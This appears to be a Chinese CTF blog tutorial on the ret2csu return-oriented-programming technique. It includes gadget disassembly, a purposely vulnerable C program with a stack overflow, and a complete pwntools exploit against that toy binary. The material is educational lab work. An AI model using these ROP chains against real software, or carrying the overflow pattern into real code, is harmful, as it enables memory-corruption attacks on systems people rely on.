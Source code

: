```yaml
---
title: 2022-01-20-PWN-最基础的ret2csu
date: 2022-01-20 20:31:11
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/banner_categories.jpg
banner_img: https://novanoir.moe/img/banner_categories.jpg
---
```

# RET2CSU

## 0x01 为什么需要ret2csu？

在64bits的ELF文件中，函数调用的前六个参数是分别存放在*rdi、rsi、rdx、rcx、r8、r9*这六个寄存器当中的，而我们在实际构建ROP时很难找到对应的gadgets（大部分情况下是找不到rdx），而ret2csu的关键点就在于使用`__libc_csu_init()`来获取两个gadgets来进行万能传参（同时泄露出函数真实地址）


<!--truncate-->
## 0x02 __libc_csu_init()

`__libc_csu_init()`是用来对libc进行初始化操作的函数，而绝大部分软件都会调用到libc，因此我们可以认为`__libc_csu_init()`基本算程序通用的函数之一

。这里，我们随便打开一个64bitELF文件查看一下它。

```assembly
.text:0000000000401250 loc_401250:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn

```

从这里我们可以看出，我们可以让`r15+rbx*8`为我们所要执行函数的指针，`edi、rsi、rdx`可以分别作为函数的参数

在通常情况下，我们一般让`rbx=0，rbp=1`，这样可以赋值`r15`为指向函数的指针，如此一来便大大化简了我们使用gadgets的难度。



## 0x03 实战

在这里，我只准备对ret2csu的原理进行探究（因为还有半个小时就要打HGAME辣），所以我写了一个简单的程序，它会直接泄露出函数实际地址

source:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}

```

编译:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```



很简单，我们只需要利用`__libc_csu_init()`将rdx赋值为233就好了

而我们使用ROPgadgets可以发现是没有一个gadgets能让我们这样做的

![ROPgadgets](https://cdn.novanoir.moe/img/image-20220120193316710.png)

这时候我们就需要进行ret2csu了

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```



值得注意的是，执行完gadget1之后，程序顺序执行会再次执行gadget2，因此，我们需要再填充一次`(7*0x8)`的垃圾数据防止出现错误

完整payload：

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266


def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()

```



